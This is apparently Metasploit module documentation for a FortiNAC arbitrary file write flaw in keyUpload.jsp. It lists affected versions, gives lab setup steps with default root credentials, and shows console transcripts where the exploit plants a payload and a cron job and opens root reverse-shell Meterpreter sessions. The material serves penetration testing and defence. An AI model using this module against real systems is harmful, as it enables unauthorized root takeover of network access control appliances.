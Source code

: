 ## Vulnerable Application

This module uploads a payload to the `/tmp` directory in addition to a cron job to `/etc/cron.d` which executes the payload
in the context of the `root` user.

The core vulnerability is an arbitrary file write issue in `keyUpload.jsp` which is accessible remotely and without
authentication. When you send this endpoint a ZIP file, it will extract an an attacker controlled file to directory
on the system of the attacker's choice.

This issue is exploitable on the following versions of FortiNAC:

FortiNAC version 9.4 prior to 9.4.1
FortiNAC version 9.2 prior to 9.2.6
FortiNAC version 9.1 prior to 9.1.8
FortiNAC 8.8 all versions
FortiNAC 8.7 all versions
FortiNAC 8.6 all versions
FortiNAC 8.5 all versions
FortiNAC 8.3 all versions

### Setup

Navigate to https://www.fortinet.com/demo-center/nac-demo to obtain a FortiNAC free product demo. Fill out the
necessary fields in order to download: first name, last name, job function, job level, company, email address, phone
number, state, zip/postal code. You'll receive a confirmation email, click the link in the email in order to access the
free product download.

Import the OVF file into your virtualization software of choice. Personally, I had success using VMware Fusion. Change the network
interface from Bridged to Host Only. Once the machine turns on, log in with the following default credentials as outlined
in the [VMware Virtual Machine Installation Guide](https://fortinetweb.s3.amazonaws.com/docs.fortinet.com/v2/attachments/920a0000-200d-11e9-b6f6-f8bc1258b856/fortinac-vmware-install-85.pdf):

```
Username: root
Password: 162PemBnI
```

Once authenticated successfully, statically set the IP Address of the machine:

`configIP 192.168.123.11 255.255.255.0 192.168.123.1`

Navigate to the directory where the license file resides, and then start a Python SimpleHTTPServer web server to
host files from this directory using the following commands:

```
cd /bsc/campusMgr
python -m SimpleHTTPServer 9099
```

On your local machine download the license file from the Python server started above:

`wget -O licenseKey http://192.168.123.11:9099/.licenseKey`

On your local machine, open the browser of your choice and navigate to:

`https://192.168.123.11:8443/gui`

Authenticate with the default username and password:

```
Username: root
Password: YAMS
```

Follow the installation steps, everything should be straight forward. When asked for the license key, provide
the `.licenseKey` file you downloaded from the Python HTTP server. Set the hostname to `localhost`.
The domain can be set to `localhost.localdomain`. You will be required to change the default passwords from the
GUI and once complete, restart the machine. You should now have a vulnerable instance of FortiNAC configured.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/multi/http/fortinac_keyupload_file_upload`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### FortiNAC 9.4.0 Python Target

```
msf6 > use exploit/multi/http/fortinac_keyupload_file_upload
[*] Using exploit/multi/http/fortinac_keyupload_file_upload
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lport 4440
lport => 4440
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > run

[*] Started reverse TCP handler on 192.168.123.1:4440
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending zipped payload to keyUpload.jsp
[*] Sending zipped cron job to keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (24772 bytes) to 192.168.123.11
[*] Meterpreter session 1 opened (192.168.123.1:4440 -> 192.168.123.11:56544) at 2023-03-08 13:48:03 -0500
[!] This exploit may require manual cleanup of '/tmp/gSYDIjeD' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/PYXGcyGo' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : localhost.localhost.localdomain
OS              : Linux 3.10.0-1160.53.1.el7.x86_64 #1 SMP Fri Jan 14 13:59:45 UTC 2022
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```

### FortiNAC 9.4.0 Linux x64 Target
```
msf6 > use exploit/multi/http/fortinac_keyupload_file_upload
[*] Using exploit/multi/http/fortinac_keyupload_file_upload
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set rhosts 192.168.123.11
rhosts => 192.168.123.11
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set lport 4440
lport => 4440
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set target Linux x64
target => Linux x64
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/fortinac_keyupload_file_upload) > run

[*] Started reverse TCP handler on 192.168.123.1:4440
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending zipped payload to keyUpload.jsp
[*] Sending zipped cron job to keyUpload.jsp
[*] Waiting for cron job to run
[*] Sending stage (3045348 bytes) to 192.168.123.11
[*] Meterpreter session 2 opened (192.168.123.1:4440 -> 192.168.123.11:56578) at 2023-03-08 13:49:01 -0500
[!] This exploit may require manual cleanup of '/tmp/vprwoPAh' on the target
[!] This exploit may require manual cleanup of '/etc/cron.d/ZIpoyhHQ' on the target

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.53.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

